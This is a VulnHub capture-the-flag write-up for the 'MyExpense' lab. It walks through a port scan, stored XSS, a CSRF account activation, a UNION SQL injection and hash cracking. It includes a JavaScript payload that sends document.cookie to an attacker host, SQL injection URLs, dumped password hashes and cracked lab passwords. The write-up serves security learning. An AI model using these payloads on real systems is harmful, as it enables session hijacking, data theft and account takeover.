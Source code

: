 ```yaml
---
{"dg-publish":true,"permalink":"/write-ups/vuln-hub/my-expense/"}
---
```


From description we have the credentials:
`samuel_fzghn4lw`
# Scan
General scan
PORT      STATE SERVICE REASON
```
   7   │ 80/tcp    open  http    syn-ack ttl 64
   8   │ 38575/tcp open  unknown syn-ack ttl 64
   9   │ 53717/tcp open  unknown syn-ack ttl 64
  10   │ 54457/tcp open  unknown syn-ack ttl 64
  11   │ 59781/tcp open  unknown syn-ack ttl 64
```
# Port 80
## Focused scan
```
PORT      STATE SERVICE VERSION
   6   │ 80/tcp    open  http    Apache httpd 2.4.25 ((Debian))
   7   │ |_http-server-header: Apache/2.4.25 (Debian)
   8   │ |_http-title: Futura Business Informatique GROUPE - Conseil en ing\xC3\xA9nierie
   9   │ | http-robots.txt: 1 disallowed entry
  10   │ |_/admin/admin.php
  11   │ | http-cookie-flags:
  12   │ |   /:
  13   │ |     PHPSESSID:
  14   │ |_      httponly flag not set
  ```
## Checking `robots.txt`
```
User-agent: *
Disallow: /admin/admin.php
```

Fuzzing the page we just found `/admin` like above.

## /admin/admin.php
![Pasted image 20240703173824.png](/img/user/Write-ups/VulnHub/attachments/Pasted%20image%2020240703173824.png)
We found an admin panel.
We have more info about us.
`slamotte	Samuel	Lamotte	slamotte@futuraBI.fr	Collaborator	2019-12-03 17:08:09`
We don't have permissions to inactive our user
![Pasted image 20240703174158.png](/img/user/Write-ups/VulnHub/attachments/Pasted%20image%2020240703174158.png)

Trying to login using `slamotte` and `fzghn4lw`.
![Pasted image 20240703175002.png](/img/user/Write-ups/VulnHub/attachments/Pasted%20image%2020240703175002.png)

Create a new account.
And the button is disable, but we can inspect the html code.
![Pasted image 20240703175519.png](/img/user/Write-ups/VulnHub/attachments/Pasted%20image%2020240703175519.png)
And delete the disable part.
![Pasted image 20240703175631.png](/img/user/Write-ups/VulnHub/attachments/Pasted%20image%2020240703175631.png)
Now the button is enable and we can create the new account.
![Pasted image 20240703175654.png](/img/user/Write-ups/VulnHub/attachments/Pasted%20image%2020240703175654.png)
We are in the system with an inactive account.
![Pasted image 20240703175913.png](/img/user/Write-ups/VulnHub/attachments/Pasted%20image%2020240703175913.png)

Trying XSS creating a new test user with the fields. Don't forget able the button.
![Pasted image 20240703180410.png](/img/user/Write-ups/VulnHub/attachments/Pasted%20image%2020240703180410.png)
Check the admin panel and we have a XSS.
![Pasted image 20240703180550.png](/img/user/Write-ups/VulnHub/attachments/Pasted%20image%2020240703180550.png)
# XSS
To exploit this XSS we need the interaction of a some user, to check if some user is checking the admin panel.
Create a new user with this code on the two last fields.
```js
<script src="http://192.168.122.192/test.js"></script>
```
This code is trying to get the file `test.js` from our server, if someone check the admin panel, the code is executed and we can watch the request on our server.
Mount a server on the attacker machine.
```python
python -m http.server 80
```

## Get the cookie
now in the js file put
```js
var request = new XMLHttpRequest();
request.open('GET', 'http://attackerIP/?cookie=' + document.cookie);
request.send();
```
`PHPSESSID=0iap4q3kqsctljgp13vrcbi1f2`
`0gp9edhmbd1lnnjejhitk4mk65`
`h4a1tpdbhnfjss32mhup0v6d37`
`knjvvrlahr23emlepkqn800ac2`
We got some cookies, one of them is the admin account, but if use that cookie, we can't login, because the system admit just 1 login.

# XSRF
Activate account
Trying another way, if we try to activate the account we have.
![Pasted image 20240704171243.png](/img/user/Write-ups/VulnHub/attachments/Pasted%20image%2020240704171243.png)

Now we know that the admin is constantly visiting the admin panel, so we can set the XSS to the user make a request to the url above.
```js
var request = new XMLHttpRequest();
request.open('GET', 'http://192.168.122.204/admin/admin.php?id=11&status=active');
request.send();
```
Now we start the python server again ans wait. After a while we can see that the admin make the request and our account should be activate.
![Pasted image 20240704171856.png](/img/user/Write-ups/VulnHub/attachments/Pasted%20image%2020240704171856.png)

After login in, in the expense reports, we see the report and now submit it.
![Pasted image 20240704172227.png](/img/user/Write-ups/VulnHub/attachments/Pasted%20image%2020240704172227.png)
Some has to approve our report, and we see in the profile settings that Manen RIviere is our Manager.
![Pasted image 20240704172450.png](/img/user/Write-ups/VulnHub/attachments/Pasted%20image%2020240704172450.png)
We supposs to Manon has an panel to approve our report, so we'll try to get the Manon cookie sending an js in the message field. Again listen on python server.
![Screenshot_20240704_181923.png](/img/user/Write-ups/VulnHub/attachments/Screenshot_20240704_181923.png)
We have a few cookies, one of them is the Manager cookie.

![Screenshot_20240704_182401.png](/img/user/Write-ups/VulnHub/attachments/Screenshot_20240704_182401.png)
Now validate the report. On the green button.

We need that the financial person approve the payment
in the rennes page we will try sqli.

# SQLi
We break the query adding this.
![](/img/user/Write-ups/VulnHub/attachments/Screenshot_20240704_184024.png)
Now get the information from db
## DB names
information_schema,myexpense,mysql,performance_schema
## myexpense DB
expense,message,site,user
### User Table
`http://192.168.122.204/site.php?id=2%20union%20select%201,group_concat(column_name)%20FROM%20information_schema.columns%20WHERE%20table_name%20=%20%27user%27--%20-`

user_id,**username**,**password**,role,lastname,firstname,site_id.....e,max_statement_time

## Username and password
**afoulon:124922b5d61dd31177ec83719ef8110a**
**pbaudouin:64202ddd5fdea4cc5c2f856efef36e1a**
rlefrancois:ef0dafa5f531b54bf1f09592df1cd110
mriviere:d0eeb03c6cc5f98a3ca293c1cbf073fc
mnguyen:f7111a83d50584e3f91d85c3db710708
pgervais:2ba907839d9b2d94be46aa27cec150e5
placombe:04d1634c2bfffa62386da699bb79f191
triou:6c26031f0e0859a5716a27d2902585c7
broy:b2d2e1b2e6f4e3d5fe0ae80898f5db27
brenaud:2204079caddd265cedb20d661e35ddc9
slamotte:21989af1d818ad73741dfdbef642b28f
nthomas:a085d095e552db5d0ea9c455b4e99a30
vhoffmann:ba79ca77fe7b216c3e32b37824a20ef3
rmasson:ebfc0985501fee33b9ff2f2734011882
test:912b7bc95fb9e6885a4685746433f39a
test2:088e03d5b2537942a15e4842d27eb49d

Checking the admin panel again to see all accounts, we are interested on the `Finalcial approvers` accounts and we will try to crack the passwords of them.

`afoulon	Aristide	Foulon	afoulon@futuraBI.fr	Financial approver	2019-12-03 17:08:09`
`pbaudouin	Paul	Baudouin	pbaudouin@futuraBI.fr	Financial approver	2019-12-03 17:08:09`

# Cracking hashes
Checking hashes.com

afoulon:wq6hblv3
pbaudouin:HackMe

Login in like `afoulon` and he don't have our report. But `pbaudouin` has it.
![](/img/user/Write-ups/VulnHub/attachments/Screenshot_20240704_205514.png)

# Flag
Login as Samuel and get the flag.
![](/img/user/Write-ups/VulnHub/attachments/Screenshot_20240704_205739.png)